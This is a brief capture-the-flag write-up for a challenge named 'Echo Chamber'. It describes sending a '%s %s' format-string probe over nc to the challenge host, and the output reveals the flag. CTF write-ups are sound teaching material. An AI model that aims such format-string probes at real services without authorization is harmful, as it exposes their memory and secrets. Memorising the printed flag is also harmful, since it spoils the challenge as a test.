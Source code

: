 DEADFACE loves their vintage tech, but their "Echo Chamber" chat bot has a critical flaw from the old days. It echoes messages without sanitizing input, potentially leaking sensitive data. As a Turbo Tactical operative, connect to the remote service at echochamber.deadface.io:13337 and exploit it to reveal a hidden flag.

---
when we connect to the remote server it simply echoes back whatever we send, and because the challenge hints at a possible format-string vulnerability, a sensible test is to send the string `%s` to see how the server processes it.
```bash
~  nc echochamber.deadface.io 13337
DEADFACE Echo Chamber
Enter your message: %s %s
Echo: deadface{r3tr0_f0rm4t_l34k_3xp0s3d} deadface{r3tr0_f0rm4t_l34k_3xp0s3d}
```